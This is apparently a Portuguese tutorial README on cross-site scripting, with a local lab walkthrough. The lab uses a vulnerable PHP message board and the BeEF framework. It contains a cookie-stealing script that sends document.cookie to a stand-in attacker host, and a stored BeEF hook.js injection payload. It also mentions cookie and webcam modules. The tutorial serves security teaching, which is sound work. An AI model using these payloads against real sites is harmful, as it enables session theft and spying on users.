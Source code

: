# TUTORIAL XSS - cross site scripting

## O que é o XSS?

O cross site scripting (XSS) é um ataque de injeção de código que permite que um invasor execute JavaScript mal-intencionado no navegador de outro usuário.

O atacante não direciona diretamente a vítima. Em vez disso, ele explora uma vulnerabilidade em um site que a vítima visita, a fim de obter o site para entregar o JavaScript malicioso para ele. Para o navegador da vítima, o JavaScript malicioso parece ser uma parte legítima do site, e o site agiu como um cúmplice não intencional para o invasor.

## Como o JavaScript malicioso é injetado

A única maneira de o invasor executar o JavaScript mal-intencionado no navegador da vítima é injetá-lo em uma das páginas que a vítima baixa do site. Isso pode acontecer se o site incluir diretamente a entrada do usuário em suas páginas, porque o invasor pode inserir uma sequência que será tratada como código pelo navegador da vítima.

No exemplo abaixo, um script simples do lado do servidor é usado para exibir o comentário mais recente em um site:

```js
print "<html>"
print "Latest comment:"
print database.latestComment
print "</html>"
```
### Atores em um ataque XSS
Antes de descrevermos em detalhes como um ataque XSS funciona, precisamos definir os atores envolvidos em um ataque XSS. Em geral, um ataque XSS envolve três atores: o site , a vítima e o invasor .

O site serve páginas HTML para usuários que as solicitam. Nos nossos exemplos, está localizado em http://website/.

O banco de dados do site é um banco de dados que armazena parte da entrada do usuário incluída nas páginas do site.

A **vítima** é um usuário normal do site que solicita páginas a partir dele usando seu navegador.

O **invasor** é um usuário mal-intencionado do site que pretende lançar um ataque à vítima explorando uma vulnerabilidade de XSS no site.

O **servidor do invasor** é um servidor da Web controlado pelo invasor com o único propósito de roubar as informações confidenciais da vítima. Nos nossos exemplos, está localizado em http://attacker/.

### Um exemplo de cenário de ataque

Neste exemplo, vamos assumir que o objetivo final do atacante é roubar os cookies da vítima explorando uma vulnerabilidade do XSS no site. Isso pode ser feito com o navegador da vítima analisando o seguinte código HTML:
```js
<script>
window.location='http://attacker/?cookie='+document.cookie
</script>
```
Esse script navega no navegador do usuário para um URL diferente, acionando uma solicitação HTTP para o servidor do invasor. O URL inclui os cookies da vítima como um parâmetro de consulta, que o invasor pode extrair da solicitação quando chega ao seu servidor. Uma vez que o invasor tenha adquirido os cookies, ele pode usá-los para representar a vítima e lançar novos ataques.

A partir de agora, o código HTML acima será referido como a cadeia maliciosa ou o script malicioso . É importante notar que a string em si é apenas maliciosa se for analisada como HTML no navegador da vítima, o que só pode acontecer como resultado de uma vulnerabilidade do XSS no site.

### Como funciona o ataque de exemplo
O diagrama abaixo ilustra como esse o exemplo de ataque pode ser executado por um invasor:

![Script Server](https://excess-xss.com/reflected-xss.png)

* O atacante cria uma URL contendo uma string maliciosa e a envia para a vítima.

* A vítima é enganada pelo atacante para solicitar o URL do site.

* O site inclui a sequência maliciosa do URL na resposta.

* O navegador da vítima executa o script malicioso dentro da resposta, enviando os cookies da vítima para o servidor do invasor.

![BeEF Logo](https://github.com/beefproject/beef/wiki/Images/logo.png)


# Visão geral BeEF Framework
O Browser Exploitation Framework (BeEF) é uma poderosa ferramenta de segurança profissional. O BeEF é uma técnica pioneira que fornece ao testador de penetração experiente vetores práticos de ataque do lado do cliente. Ao contrário de outras estruturas de segurança, o BeEF se concentra em aproveitar as vulnerabilidades do navegador para avaliar a postura de segurança de um alvo. Este projeto é desenvolvido exclusivamente para pesquisa legal e testes de penetração.

O BeEF conecta um ou mais navegadores da Web como cabeças de ponte para o lançamento de módulos de comando direcionados. Cada navegador provavelmente está em um contexto de segurança diferente e cada contexto pode fornecer um conjunto de vetores de ataque exclusivos. A estrutura permite que o testador de penetração selecione módulos específicos (em tempo real) para direcionar cada navegador e, portanto, cada contexto.

O framework contém vários módulos de comando que empregam a API simples e poderosa do BeEF. Essa API está no centro da eficácia e eficiência da estrutura. Ele abstrai a complexidade e facilita o desenvolvimento rápido de módulos personalizados.

# Prática

## Configuração de Ambiente 

### Primeiro instale o BeEF

[Guia de Instalação](https://github.com/beefproject/beef/wiki/Installation) 

### Em seguinda, caso não tenha instale o Servidor Web 

No nosso caso podemos usar o Xampp. 
Pois iremos utilizar o php, apache e o banco de dados.

[Instalação Xampp Ubuntu](http://www.edivaldobrito.com.br/como-instalar-o-xampp-no-linux/)

#### Configurar o banco

Ao instalar o xamp ele traz a ferramenta phpmyadmin nela:
* Crie o banco com o nome "messeger"
* Importe o arquivo messeger.sql disponivel no projeto que será baixado e servirá para criar a tabela.


### Baixe este projeto

* Edite o arquivo db.php no projeto com os dados (usuario e senha) do seu banco.

* Após editar o arquivo, coloque na pasta (/opt/lampp/htdocs)

* Verifique se o servidor tá rodando e acesse http://localhost/messager/


Se tudo tive ocorrido bem está é a página que vai mostrar

![formulario](img/form.png)



## O Ataque

Para iniciar, iremos acessar a página onde o beef foi baixado ou clonado e lá iniciar o framework com o comando especificado abaixo:

``` js
./beef
```

Então preencha o formulário da tela anterior com um email qualquer text@text e no campo mensagem digite: 

``` js
<script src="http://127.0.0.1:3000/hook.js"></script>
```
Link encontrado após iniciar a aplicação
![beef](img/beef.png)

    Então esse script irá para o banco e será armazenado.

Após isso acessaremos o painel do beef com o link que se encontra na imagem

``` js
    http://127.0.0.1:3000/ui/panel
```
Então acessem a o painel com o usuário padrão *beef* e senha *beef* e então irá aparecer a página inicial da ferramenta.

![beef inicial](img/beefinicio.png)

Para saber se o site foi infectado, acesse 
http://localhost/messager/mensagens.php

![Tela de retorno das mensagens](img/mensagens.png)

Este é o resultado, está sendo mostrado a lista dos email e mensagens cadastrados.
Se você notar, existe um campo mensagem que está vázio, este é o campo que foi enviado o script malicioso.
Especionado a página, vc encontra o script que foi enviado anteriormente.

Acessando o panel do beef novamente você irá notar que depois de executar a listagem das mensagens o script ativou o monitoriamento na ferramenta e o site está infectado.

![beef infectado](img/beefinfectado.png)

Após isso, clique no ip da máquina que deseja monitorar e então você pode acessar a aba comandos no menu vertical, no modulo browser existe diversos comandos para serem usados no site infectado como: acessar a webcam, obter cookies, obter links como também mudar links.

Existe uma infinidade de opções. Fique a vontade para usar.



# Referências   

https://excess-xss.com/#xss-attacks

https://github.com/beefproject/beef/wiki